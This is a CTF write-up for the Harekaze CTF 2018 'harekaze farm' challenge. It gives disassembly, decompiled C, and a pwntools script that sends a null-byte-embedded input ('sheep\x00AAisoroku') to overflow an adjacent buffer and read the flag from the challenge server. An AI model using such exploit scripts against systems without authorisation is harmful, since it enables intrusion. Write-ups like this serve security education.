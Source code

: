 ```yaml
---
layout: post
title: "farm"
---
```

# harekaze farm - harekaze ctf 2018 

In Harekaze Farm, some animas is living. Let’s find them!

[harekaze_farm](https://problem.harekaze.com/32536dfc77c33d38f0a7d40210eee3b7d2547955ab6ae9f1eb92defaf59371a3/harekaze_farm/harekaze_farm)

this challenge was a less trivial buffer overflow than im used to seeing in ctf!

i started by checking the binary mitigations in place:

```
checksec harekaze_farm    
[*] '/home/vagrant/harekaze/harekaze-farm/harekaze_farm'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

upon a quick look i could at the assembly i could tell that the goal was to have a favorite animal called 'isoroku':

```
  |│   0x00400abc      4805a0206000   add rax, obj.select_animals
  |│   0x00400ac2      bed20c4000     mov esi, str.isoroku
  |│   0x00400ac7      4889c7         mov rdi, rax
  |│   0x00400aca      e801fcffff     call sym.imp.strcmp
  |│   0x00400acf      85c0           test eax, eax
 ┌───< 0x00400ad1      757f           jne 0x400b52
 │|│   0x00400ad3      bfe00c4000     mov edi, str.isoroku:__flag_is_here___flag_is_here_
 │|│   0x00400ad8      e893fbffff     call sym.imp.puts
 │|│   0x00400add      488d95f0feff.  lea rdx, [local_110h]
 │|│   0x00400ae4      b800000000     mov eax, 0
 │|│   0x00400ae9      b920000000     mov ecx, 0x20
 │|│   0x00400aee      4889d7         mov rdi, rdx
 │|│   0x00400af1      f348ab         rep stosq qword [rdi], rax
 │|│   0x00400af4      be070d4000     mov esi, 0x400d07
 │|│   0x00400af9      bf090d4000     mov edi, str._home_harekaze_farm_flag
 │|│   0x00400afe      e8ddfbffff     call sym.imp.fopen
 │|│   0x00400b03      488985e8feff.  mov qword [local_118h], rax
 │|│   0x00400b0a      4883bde8feff.  cmp qword [local_118h], 0
┌────< 0x00400b12      7514           jne 0x400b28
││|│   0x00400b14      bf220d4000     mov edi, str.ERROR:_FILE_OPEN_ERROR
││|│   0x00400b19      e852fbffff     call sym.imp.puts
││|│   0x00400b1e      bf01000000     mov edi, 1
││|│   0x00400b23      e8c8fbffff     call sym.imp.exit
└────> 0x00400b28      488b95e8feff.  mov rdx, qword [local_118h]
 │|│   0x00400b2f      488d85f0feff.  lea rax, [local_110h]
 │|│   0x00400b36      beff000000     mov esi, 0xff
 │|│   0x00400b3b      4889c7         mov rdi, rax
 │|│   0x00400b3e      e87dfbffff     call sym.imp.fgets
 │|│   0x00400b43      488d85f0feff.  lea rax, [local_110h]
 │|│   0x00400b4a      4889c7         mov rdi, rax
 │|│   0x00400b4d      e81efbffff     call sym.imp.puts
```

however simply entering 'isoroku' does not work:

````
Welcome to Harekaze farm
Input a name of your favorite animal: sheep 
Input a name of your favorite animal: goat
Input a name of your favorite animal: isoroku
Begin to parade!
sheep: "baa" "baa"
goat: "bleat" "bleat"
```

i wanted an easy way to see how this could be pwned and the assembly was too much to read so i ran the binary through hex rays decompiler:

```c
  puts("Welcome to Harekaze farm");
  for ( i = 0; i <= 2; ++i )
  {
    *(_QWORD *)s1 = 0LL;
    v17 = 0LL;
    printf("Input a name of your favorite animal: ");
    s1[__read_chk(0LL, s1, 16LL, 16LL) - 1] = 0;
    if ( !strcmp(s1, "cow") )
    {
      v3 = (char *)&select_animals + 8 * i;
      v4 = v17;
      *(_QWORD *)v3 = *(_QWORD *)s1;
      *((_QWORD *)v3 + 1) = v4;
    }
    if ( !strcmp(s1, "sheep") )
    {
      v5 = (char *)&select_animals + 8 * i;
      v6 = v17;
      *(_QWORD *)v5 = *(_QWORD *)s1;
      *((_QWORD *)v5 + 1) = v6;
    }
    if ( !strcmp(s1, "goat") )
    {
      v7 = (char *)&select_animals + 8 * i;
      v8 = v17;
      *(_QWORD *)v7 = *(_QWORD *)s1;
      *((_QWORD *)v7 + 1) = v8;
    }
    if ( !strcmp(s1, "hen") )
    {
      v9 = (char *)&select_animals + 8 * i;
      v10 = v17;
      *(_QWORD *)v9 = *(_QWORD *)s1;
      *((_QWORD *)v9 + 1) = v10;
    }
  }
  puts("Begin to parade!");
  for ( j = 0; j <= 2; ++j )
  {
    if ( !strcmp((const char *)(8LL * j + 6299808), "cow") )
      puts("cow: \"moo\" \"moo\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "sheep") )
      puts("sheep: \"baa\" \"baa\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "goat") )
      puts("goat: \"bleat\" \"bleat\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "hen") )
      puts("hen: \"cluck\" \"cluck\"");
    if ( !strcmp((const char *)(8LL * j + 6299808), "isoroku") )
    {
      puts("isoroku: \"flag is here\" \"flag is here\"");
      memset(s1, 0, 0x100uLL);
      stream = fopen("/home/harekaze_farm/flag", "r");
      if ( !stream )
      {
        puts("ERROR: FILE OPEN ERROR");
        exit(1);
      }
      fgets(s1, 255, stream);
      puts(s1);
    }
  }
  result = 0;
  v12 = *MK_FP(__FS__, 40LL) ^ v18;
  return result;
}
```

so our input is taken in with the read system call (size 16) which i know can accept null bytes, strcpy will stop comparing on null bytes as well..

so with that i could write my exploit!

```python
#!/usr/bin/python

from pwn import *

REMOTE = True 
#DEBUG = True
DEBUG = False

host = 'problem.harekaze.com'
port = 20328

def getpipe():
    if REMOTE:
        return remote(host, port)
    else:
        return process('./harekaze_farm')

r = getpipe()
#raw_input('> ')
gdbscript = '''
b *0x00400aca
c
'''

if DEBUG:
    gdb.attach(r, gdbscript)

r.recvuntil('al: ')
r.sendline('sheep\x00AAisoroku')
r.recvuntil('al: ')
r.sendline('burps')
r.recvuntil('al: ')
r.sendline('hen')

r.interactive()

r.close()
```
